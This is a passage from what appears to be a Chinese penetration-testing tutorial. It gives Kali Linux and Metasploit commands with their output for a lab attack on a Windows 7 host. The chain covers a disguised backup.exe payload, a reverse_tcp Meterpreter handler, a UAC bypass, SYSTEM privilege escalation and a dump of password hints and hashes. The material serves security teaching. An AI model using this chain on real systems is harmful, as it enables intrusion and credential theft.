从输出的信息中可以看到生成一个可执行文件 backup.exe，并且该文件保存在/root/veil-output/compiled/中。此时将可执行文件 backup.exe 发送到目标主机上，就可以利用该攻击载荷了。

接下来需要使用 Metasploit 创建一个远程处理器，等待目标主机连接到 Kali Linux（攻击主机）操作系统。连接成功后，就获取到一个远程 Shell 命令。

【实例 6-6】创建远程处理器。具体操作步骤如下所示。

（1）启动 MSF 终端。

（2）使用 handler 模块。执行命令如下所示：

```
msf > use exploit/multi/handler 
```

（3）加载 reverse_tcp 攻击载荷，并设置其选项参数。执行命令如下所示：

```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.6.103
LHOST => 192.168.6.103 
```

（4）启动渗透攻击。执行命令如下所示：

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler… 
```

从输出信息可以看到攻击载荷已启动，正在等待连接目标主机。

此时将前面生成的可执行文件 backup.exe 发送到目标主机（Windows 7），并运行该可执行文件。然后返回到 Kali Linux 操作系统，将看到如下所示的信息：

```
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.110:2478) at 2014-07-17 10:44:47 +0800
meterpreter > 
```

从以上信息中，可以看到成功打开了一个 Meterpreter 会话。这表示已成功渗透攻击目标主机，现在就可以进行一些 Shell 命令。如进行目标主机的 Shell 环境，执行命令如下 所示：

```
meterpreter > shell
Process 1544 created.
Channel 1 created.
Microsoft Windows [版本 6.1.7601]
              (c) 2009 Microsoft Corporation
C:\Users\lyw\Desktop> 
```

输出的信息表示进入了目标系统 Windows 7 的命令行，并且当前目标系统登录的用户是 lyw。

如果以上用户没有太高权限时，可以使用 Metasploit 中的 bypassuac 模块绕过 UAC（用户访问控制），进而提升用户的权限。下面将介绍使用 bypassuac 模块提升以上 lyw 用户的权限。

（1）将 Meterpreter 会话，调用到后台运行。执行命令如下所示：

```
meterpreter > background
[*] Backgrounding session 1… 
```

从输出的信息中，可以看到当前后台运行的会话编号是 1。该会话编号需要记住，在后面将会用到。

（2）查看会话详细信息。执行命令如下所示：


从输出信息中可以看到该会话中，连接到目标系统的运行架构、计算机名及 IP 地址。

（3）使用 bypassuac 模块，并查看可配置的选项参数。执行命令如下所示：


从输出信息中，可以看到模块选项中有一个可配置的选项参数 SESSION。该选项的值，就是当前后台运行的会话编号。

（4）设置 SESSION 选项参数。如下所示：

```
msf exploit(bypassuac) > set session 1
session => 1 
```

（5）启动渗透攻击。执行命令如下所示：

```
msf exploit(bypassuac) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] UAC is Enabled, checking level…
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing…
[+] Part of Administrators group! Continuing…
[*] Uploaded the agent to the filesystem….
[*] Uploading the bypass UAC executable to the filesystem…
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 2 opened (192.168.6.103:4444 -> 192.168.6.106:49206) at 2014-07-18 10:15:38 +0800
meterpreter > 
```

从输出的信息中，可以看到目前登录的用户实际上是属于管理组的成员，并且绕过了 UAC 创建了一个新的会话。此时就可以提升用户的权限了。

（6）查看 lyw 用户的信息。执行命令如下所示：

```
meterpreter > getuid
Server username: WIN-RKPKQFBLG6C\lyw 
```

从输出信息中可以看到该用户只是 WIN-RKPKQFBLG6C 计算机中的一个普通用户。

（7）提升 lyw 用户的权限，并查看其用户信息。执行命令如下所示：

```
meterpreter > getsystem
…got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

从输出信息中可以看到当前 lyw 用户，拥有了系统级别的权限。此时，可以进行任何的操作。如捕获目标系统中，用户的密码哈希值。执行命令如下所示：

```
meterpreter > run post/windows/gather/hashdump
[*] Obtaining the boot key…
[*] Calculating the hboot key using SYSKEY 88f6c818af614f7033cb885 74907b61c…
[*] Obtaining the user list and keys…
[*] Decrypting user keys…
[*] Dumping password hints…
Test:"www.123"
abc:“123456”
alice:“passwd”
[*] Dumping password hashes…
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4::: 
```

从输出的信息中，可以看到目标系统中有三个用户，并且可以看到它们的 UID 及密码哈希值。而且，还捕获到三个键盘输入的密码。如捕获的 Test 用户，其密码为 www.123。